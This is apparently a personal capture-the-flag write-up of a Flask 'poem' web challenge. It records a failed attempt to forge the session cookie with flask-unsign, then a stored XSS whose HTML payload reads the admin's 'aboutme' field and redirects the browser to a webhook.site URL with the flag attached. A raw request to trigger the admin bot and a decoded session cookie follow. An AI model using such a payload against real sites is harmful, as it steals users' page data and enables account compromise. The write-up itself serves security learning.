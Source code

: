 https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/flask
- Regarding the provided source code we know, that the admin uses the flag as aboutme description. Keeping this in mind, we need to find a way to authenticate as admin to see the aboutme field
![[Pasted image 20231231010727.png]]
![[Pasted image 20231231010741.png]]

![[Screenshot from 2023-12-31 00-21-48.png]]![[Screenshot from 2023-12-31 00-22-10.png]]


## Using flask-unsign to break the session-cookie and create a new one for admin
![[Screenshot from 2023-12-31 00-47-47.png]]

![[Pasted image 20231231011226.png]]
-> secret key is 16 random bytes, so no bruteforce is possible at all. Even if this looks vulnerable at first glance, breaking the cookie generation takes a huge effort


# XSS (Cross Site Scripting) vulnerability
- Looking at the source code another time, we can see that the poem is rendered using the default render_template method. So our inserted poem behaves like a normal html page. Thus we can inject a html function with inline JavaScript
![[Pasted image 20231231113812.png]]


#### Testing XSS vulnerability

![[Pasted image 20231231113739.png]]

- Looking at the rendered page, we get the alert box and everything
![[Pasted image 20231231114204.png]]




# Inserting script into XSS vulnerability

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Redirect Example</title>
</head>
<body onload="redirectToWebsite()">

    <script>
        function redirectToWebsite() {
            var aboutMeValue = document.getElementById('aboutme').value;
            var redirectUrl = 'https://webhook.site/8a6b57f8-0cb5-42a6-b13d-c8af2e254e42';  
            var finalUrl = redirectUrl + '?flag=' + encodeURIComponent(aboutMeValue);
            
            window.location.href = finalUrl;
        }
    </script>

</body>
</html>

    </body>
</html>
```


# Sending POST request to visit to start worker thread
```
POST /visit/ HTTP/2
Host: 7301cb0f1403-webth-vulnerable.numa.host
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 104
Origin: https://7301cb0f1403-webth-vulnerable.numa.host
Alt-Used: 7301cb0f1403-webth-vulnerable.numa.host
Referer: https://7301cb0f1403-webth-vulnerable.numa.host/poem/
Cookie: session=.eJwtjkFqAzEMRa8SvA7FtizZnjP0BiUMtiwloUMC9syihNy9hnb19R-I_15m1a2MmwyzfL3MaZ9hxsEsY5iz-Xxer9JO98fpn-mxbT8f5vK-nOdnl3Ezy94Pme3ezGIc2lxs8aV5UF8qqZNsMWIKKXtNgMWCFu9CjNIwKaCfYRkqoDKICxmsUgYKuUbr0EUJgVOrXEtKCTxTcs1bFuYYgFAat0x53i7G6bweQ_qfzTi6SscJeXRd9-e3PCbmgDQ9AnmybJEiUilQI9GcDzWh88KuNPP-Bc_8U9U.ZZNpnw.WB3jGKNSDpbIpaB7IUMMa8yLJ7A
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers

csrf_token=ImM0NTY1YTA0NjI2MGMwNTY3NTZhYTNiNzY2ZTE0NGI4NTEyZWMxYWQi.ZZNpag.yQSFMHTIP4N_Qr9KfivR4oa_zJw
```

```jmxnzo@jmxnzo-ThinkPad-T470-W10DG:~$ flask-unsign --decode -c .eJwtjkFqAzEMRa8SvA7FtizZnjP0BiUMtiwloUMC9syihNy9hnb19R-I_15m1a2MmwyzfL3MaZ9hxsEsY5iz-Xxer9JO98fpn-mxbT8f5vK-nOdnl3Ezy94Pme3ezGIc2lxs8aV5UF8qqZNsMWIKKXtNgMWCFu9CjNIwKaCfYRkqoDKICxmsUgYKuUbr0EUJgVOrXEtKCTxTcs1bFuYYgFAat0x53i7G6bweQ_qfzTi6SscJeXRd9-e3PCbmgDQ9AnmybJEiUilQI9GcDzWh88KuNPP-Bc_8U9U.ZZNpnw.WB3jGKNSDpbIpaB7IUMMa8yLJ7A
{'_flashes': [('success', 'Logged in successfully.')], '_fresh': True, '_id': '1509a0a2ad23f2ab6f1e9057584892f835a03fa21477ed58f352d580c3b35fc3e14930f693649b701517e44c8dbcba88832c681d20cecc74365edcd969743177', '_user_id': 'surfer5', 'csrf_token': 'c4565a046260c056756aa3b766e144b8512ec1ad'}
```
![[Screenshot from 2024-01-02 02-42-16.png]]
# Reconnecting to webhawk 
![[Screenshot from 2024-01-02 02-42-36.png]]
